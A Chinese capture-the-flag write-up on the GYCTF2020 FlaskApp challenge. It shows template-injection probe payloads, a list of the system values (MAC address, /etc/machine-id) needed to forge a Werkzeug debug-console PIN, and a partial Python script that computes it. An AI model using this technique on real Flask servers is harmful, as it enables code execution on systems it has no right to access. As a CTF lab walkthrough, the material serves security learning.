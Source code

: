 ```yaml
---
layout: mypost
title: "[GYCTF2020]FlaskApp"
categories: [ctf_wp]
---
```


（这题问了好多师傅，大家逐一试后，确实是题目的环境有问题，导致预期解不能解出这题）

（可能这篇文章的讲解是对于有基础的小伙伴，没基础也不要怕，可以先去读完我的另一篇文章---关于 SSTI 模板注入的那点事）

1.首先这个网站就是一个提供了 base64 加密解密功能的一个网站，然后题目以及网站都给了很多的提示，说网站是用的 flask 框架，这个框架出现最多的就是那个 ssti 模板注入，而且查看源码的格式确实是符合模板的这种格式的

2.用{{7\*7}}，{{7+7}}测试一下，前面那个 poc 经过加密解密后返回的是 nonono，一看就是源码有黑名单过滤的，而后面那个 poc 经过加密解密后返回了 14，更加说明我们的思路是没有问题的

![](屏幕截图-2023-09-12-153011-1024x336.png)

![](Screenshot_159-1024x376.png)

这个加密解密真的好烦，要不直接写个脚本或者 bp 爆破一下哪些被过滤了，又测试了几个，但其中一个 poc 不小心让它报错后把报错的内容给展示出来了，而且这个还有一个类似于 shell 的一个小框框，应该是 python 中与系统交互的一个命令行，但是要用这个东西就必须输入 pin 码，现在的工作重心就到了怎么样获取 pin 码上面，然后就开始了一个枯燥的学习过程

![](屏幕截图-2023-09-12-154837-1024x218.png)

![](屏幕截图-2023-09-12-154922.png)

3.简单来说还是要获取到一些文件的内容，网上也有师傅专门去写过 pin 的加密算法以及怎么去利用这个东西，下面给出自己整理的 pin 的生成的要素

```
1. username，用户名
2. modname，默认值为flask.app
3. appname，默认值为Flask
4. moddir，flask库下app.py的绝对路径
5. uuidnode，当前网络的mac地址的十进制数
6. machine_id，docker机器id
```

这个还是很好去理解的，下面也给一个用 python 写的 pin 的加密脚本（这个是 md5 的，还有一个 sha1 的）

```
from itertools import chain
import hashlib
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '134617923377687'# str(uuid.getnode()),  /sys/class/net/eth0/address
    #'1408f836b0ca514d796cbf8960e45fa1'
    'ba5f73903f04e275f7ecc8fd0d7ceb1981ecd9b055cb728def382f52a146a34e', # get_machine_id(),/etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
```